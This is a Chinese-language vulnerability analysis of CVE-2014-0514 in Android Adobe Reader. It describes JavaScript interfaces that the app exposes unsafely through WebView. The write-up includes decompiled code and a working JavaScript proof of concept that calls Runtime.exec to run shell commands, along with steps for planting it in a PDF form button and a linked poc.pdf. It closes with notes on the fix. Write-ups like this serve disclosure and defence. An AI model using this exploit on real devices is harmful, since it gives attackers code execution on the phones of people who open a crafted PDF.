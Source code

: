 # Android Adobe Reader 任意代码执行分析(附POC)

0x00 描述
-------

* * *

前几天老外在fd还有exploit-db上，公布了Adobe Reader任意代码执行的漏洞。

漏洞编号： [CVE: 2014-0514](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0514)

AdobeReader安装量比较大，又和浏览器容器不同，分析一下。

Android Adobe Reader 调用webview的不安全的Javascript interfaces。

导致可以执行任意js代码。具体查看[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)。

影响版本：

理论上Android Adobe Reader 11.2.0之前的版本多存在，Android version 11.1.3成功利用。

我查看了之前的几个版本例如Android Adobe Reader 11.1.2 如下图，问题也应该存在。

![enter image description here](http://drops.javaweb.org/uploads/images/be0cb8b0f531dab6d6551fdebc2215a99ab1efef.jpg)

0x01利用
------

* * *

从反编译出来的java代码看

```
public class ARJavaScript
{
[...]

   public ARJavaScript(ARViewerActivity paramARViewerActivity)
   {
[...]
      this.mWebView.addJavascriptInterface(new ARJavaScriptInterface(this), "_adobereader");
      this.mWebView.addJavascriptInterface(new ARJavaScriptApp(this.mContext), "_app");
      this.mWebView.addJavascriptInterface(new ARJavaScriptDoc(), "_doc");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEScriptString(this.mContext), "_escriptString");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEvent(), "_event");
      this.mWebView.addJavascriptInterface(new ARJavaScriptField(), "_field");
      this.mWebView.setWebViewClient(new ARJavaScript.1(this));
      this.mWebView.loadUrl("file:///android_asset/javascript/index.html");
   }

```

`_adobereader，_app，_doc，_escriptString，_event，_field`这几个变量都会存在任意代码执行的问题.

利用代码和之前一样。

```
function execute(bridge, cmd) {
   return bridge.getClass().forName('java.lang.Runtime')
      .getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}

if(window._app) {
   try {
      var path = '/data/data/com.adobe.reader/mobilereader.poc.txt';
      execute(window._app, ['/system/bin/sh','-c','echo \"Lorem ipsum\" > ' + path]);
      window._app.alert(path + ' created', 3);
   } catch(e) {
      window._app.alert(e, 0);
   }
}

```

这里不同是构造 恶意的PDF。

首先需要一个PDF编辑器，比如Adobe Acrobat（flash达人pz推荐）.

然后添加表单按钮或者书签等，调用事件添加

![enter image description here](http://drops.javaweb.org/uploads/images/9e8de496378984b1d4bb04dfaa866dc00ecd551e.jpg)

我这里看了下button最好演示，和老外的那个poc一样基本上.

导入到android虚拟机里，打开，成功复现。

![enter image description here](http://drops.javaweb.org/uploads/images/93c7daefdf600f9fd06c9b0e82e8d38ce5052031.jpg)

0x02 扩展
-------

* * *

一些网盘或浏览器，看看能否调用adobe reader来预览pdf的应用可能会存在这个漏洞，大部分应用都是直接下载pdf到本地。可以再测试一些能预览pdf的邮箱之类的应用。

0x03 修复
-------

* * *

新版本的Adobe Reader 11.2.0为4.2以上的用户使用了安全的js调用接口 @JavascriptInterface，老版本的用户则在adobereader禁用了表单的js执行。 不知道那些杀毒软件能不能检测到这些恶意poc呢 :）

附上[poc.pdf](http://static.wooyun.org/20141017/2014101711445669638.pdf)